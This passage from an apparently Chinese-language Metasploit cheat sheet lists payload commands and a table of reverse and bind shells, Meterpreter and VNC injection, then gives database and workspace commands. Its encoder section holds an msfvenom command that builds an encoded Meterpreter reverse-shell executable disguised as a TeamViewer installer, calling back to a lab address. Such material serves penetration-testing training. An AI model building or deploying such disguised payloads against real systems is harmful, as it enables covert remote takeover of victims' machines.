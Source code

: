 ### 3. Payload

```shell
show payloads  # 展示所有 Payload
grep meterpreter show payloads  # 搜索特定的 Payload
```

| 有效载荷                              | 描述                                          |
| --------------------------------- | ------------------------------------------- |
| generic/custom                    | 通用监听器，多用途                                   |
| generic/shell\_bind\_tcp          | 通用监听器，多用，普通shell，TCP连接绑定                    |
| generic/shell\_reverse\_tcp       | 通用监听器，多用，普通shell，反向TCP连接                    |
| windows/x64/exec                  | 执行任意命令 (Windows x64)                        |
| windows/x64/loadlibrary           | 加载任意 x64 库路径                                |
| windows/x64/messagebox            | 使用可自定义的标题、文本和图标通过 MessageBox 生成对话框          |
| windows/x64/shell\_reverse\_tcp   | 普通外壳，单一负载，反向 TCP 连接                         |
| windows/x64/shell/reverse\_tcp    | 普通shell，stager + stage，反向TCP连接              |
| windows/x64/shell/bind\_ipv6\_tcp | 普通shell，stager + stage，IPv6 Bind TCP stager |
| windows/x64/meterpreter/$         | Meterpreter 有效载荷 + 以上品种                     |
| windows/x64/powershell/$          | 交互式 PowerShell 会话 + 上述品种                    |
| windows/x64/vncinject/$           | VNC Server (Reflective Injection) + 以上品种    |

### 4. 编码器

```shell
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

### 5. 数据库

```shell
sudo systemctl start postgresql  # 启动 postgresql 数据库
msfdb init  # 启动 MSF 数据库

# 工作区
    workspace # 查看全部工作区
    workspace -a name # 创建工作区
    workspace -d name # 删除指定工作区
    workspace name # 切换到指定工作区

# 导入其他工作 (eg : nmap) 扫描结果，只支持导入 .xml
db_import Target.xml

# 数据库备份
db_export -f xml backup.xml  # 导出到指定文件中

hosts -h  # 主机地址、主机名和我们在扫描和交互过程中找到的有关这些的其他信息
services -h # 包含有关在扫描或交互期间发现的服务的描述和信息
creds -h  # 手机与目标主机交互的凭据
loot -h # 提供拥有服务和用户的概览列表
```
